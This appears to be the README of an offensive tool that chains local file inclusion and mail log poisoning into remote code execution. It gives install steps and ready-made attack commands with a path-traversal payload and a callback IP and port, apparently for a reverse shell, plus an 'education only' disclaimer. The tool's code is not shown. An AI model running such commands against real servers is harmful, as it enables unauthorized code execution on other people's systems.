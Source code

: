 # MailPoisonRCE

## Mail Poison Remote Code Execution

This tool is for Local File Inclusion to Remote Code Execution via mail log poisoning

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

  ```sh
Authenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test -us user -pw root

Unauthenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test
  ```

# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[damaidec](https://medium.com/@damaidec)
[anantha](https://github.com/Ananthavijay)


